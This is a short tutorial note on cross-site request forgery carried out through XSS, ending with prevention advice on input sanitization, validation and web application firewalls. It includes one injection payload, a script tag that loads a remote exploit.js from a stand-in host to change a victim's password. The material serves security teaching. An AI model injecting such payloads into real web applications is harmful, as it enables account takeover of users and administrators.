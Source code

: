 # Cross-Site Request Forgery (CSRF)
`CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. 
- It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.

Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

`CSRF` can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server.

Following this example, instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:
```html
"><script src=//www.example.com/exploit.js></script>
```

The `exploit.js` file would contain the malicious `JavaScript` code that changes the user's password. Developing the `exploit.js` in this case requires knowledge of this web application's password changing procedure and `APIs`. The attacker would need to create `JavaScript` code that would replicate the desired functionality and automatically carry it out
## Prevention
There should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end.

Two main controls must be applied when accepting user input:

|Type|Description|
|---|---|
|`Sanitization`|Removing special characters and non-standard characters from user input before displaying it or storing it.|
|`Validation`|Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|
Another solution would be to implement a [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which can help prevent injection attempts automatically.

This [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) from OWASP discusses the attack and prevention measures in greater detail.